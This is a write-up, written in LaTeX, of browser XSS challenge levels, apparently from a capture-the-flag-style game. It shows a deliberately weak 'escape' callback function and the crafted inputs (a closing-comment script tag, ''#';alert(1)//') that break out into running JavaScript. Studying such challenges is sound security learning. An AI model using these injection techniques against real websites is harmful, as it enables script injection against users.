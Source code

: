 \documentclass{article}
\begin{document}
Which happens to be equivalent to the much more human readable following:

\begin{verbatim}
    Comment#> <script>alert(1)</script><!
\end{verbatim}

\section{Callback}

In this challenge, the function takes a string which again is expected to contain a `\#' symbol. It then generates a script tag which attempts to call a function with the name given before the `\#', passing it a JavaScript object with a single property called ``userdata'' whose value is whatever was after the `\#'.

\begin{verbatim}
	function escape(s) {
	    // Pass in "callback#userdata"
	    var thing = s.split(/#/);

	    if (!/^[a-zA-Z\[\]']*$/.test(thing[0]))
	        return 'Invalid callback';
	    var obj = {'userdata': thing[1] };
	    var json = JSON.stringify(obj).replace(/</g, '\\u003c');
	    return "<script>" + thing[0] + "(" + json +")</script>";
	}
\end{verbatim}

What worked in this case was to give a single quote as the function name, which was allowed according to the validation performed in the function, and to start the user data with a single quote as well. This has the effect of putting the code which started the object all in a string, which left the text after the `\#' to be interpreted as JavaScript code.

After the \verb`'#'`, we can put any symbol such as a semicolon, ampersand or plus followed by \verb`alert(1)`, to cause the alert to be triggered. Then we would need to use two forward slashes to comment out the rest of the intended JavaScript which closed the object and function call. So the final input would look like this.

\begin{verbatim}
	'#';alert(1)//
\end{verbatim}

This would be converted by the function into what follows.

\begin{verbatim}
	<script>'({"userdata":"';alert(1)//"})</script>
\end{verbatim}
\end{document}
